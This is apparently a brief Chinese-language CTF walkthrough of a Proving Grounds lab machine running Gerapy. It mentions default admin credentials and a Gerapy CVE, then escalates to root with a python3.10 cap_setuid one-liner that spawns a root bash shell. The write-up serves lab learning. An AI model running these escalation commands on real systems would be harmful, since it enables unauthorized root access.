


本系列為 Proving Grounds Play Subscription 靶機

## 官方難易度 : Easy

## 社群評論難易度 : HARD

## 解題花費時間 : < 120 min

## 知識點 :

已知資訊 GERAPY

`Gerapy < 0.9.8`

### Port Scan


### 8000 Port

發現 帳號與密碼 admin 可以進系統 


登入後發現最下方有個版本號 0.97 搜索一下 發現有 CVE可利用 `Gerapy < 0.9.8`



在項目管理中 隨便新增一個專案 即可利用 CVE腳本 `※若無專案 則會失敗`



## 提權

看 log 發現有個scheduler.py的檔案


查看版本號 ,且有gcc 可用  `Linux ubuntu 5.15.0-73-generic`


### `最後使用了很多 dirtypipe 提權都無解`

參考 Write up

## getcap -r / 2>/dev/null

```
/snap/core20/1518/usr/bin/ping cap_net_raw=ep
/snap/core20/1891/usr/bin/ping cap_net_raw=ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/mtr-packet cap_net_raw=ep
/usr/bin/python3.10 cap_setuid=ep
/usr/bin/ping cap_net_raw=ep
```
`/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash");'`